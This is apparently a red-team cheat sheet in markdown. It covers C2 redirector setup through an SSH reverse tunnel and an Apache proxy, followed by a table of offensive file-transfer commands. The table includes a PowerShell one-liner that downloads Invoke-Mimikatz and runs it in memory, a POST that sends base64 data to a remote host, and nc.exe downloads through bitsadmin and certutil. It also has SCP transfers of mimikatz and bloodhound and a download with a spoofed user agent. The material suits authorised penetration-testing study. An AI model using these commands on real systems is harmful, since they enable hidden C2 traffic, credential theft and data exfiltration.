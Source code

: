 ### SSH Remote Tunnel
_Caveat: This method is not 100% reliable since it accepts all traffic coming through a single forwarded port. This will create more rubbish traffic comming into teamserver's IP_
1. Uncheck this line in `/etc/ssh/sshd_config` and restart ssh server
```ini
GatewayPorts clientspecified
```
2. Create reverse tunnel to the redirector. Be careful! this will open your local port (443) to to your VPS. _Note that on the left side is your redirector port and right side is your local C2 server port_
```bash
ssh -R 0.0.0.0:443:127.0.0.1:443 root@redirectorIP
```

### Apache mod_rewrite
This would require an Apache2 server setup on your redirector and C2 server also needed to have a public IP address.
1. Setup an Apache2 server on your redirector.
2. Modify your apache configuration file in `/etc/apache2/sites-enabled/000-default.conf`
```ini
ProxyRequests Off

# Target --> VPS --> C2
ProxyPass /index.html http//c2IPADRESS/index.html

# C2 --> VPS --> Target
ProxyPassReverse /index.html http//c2IPADRESS/index.html
```

# File Transfer

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
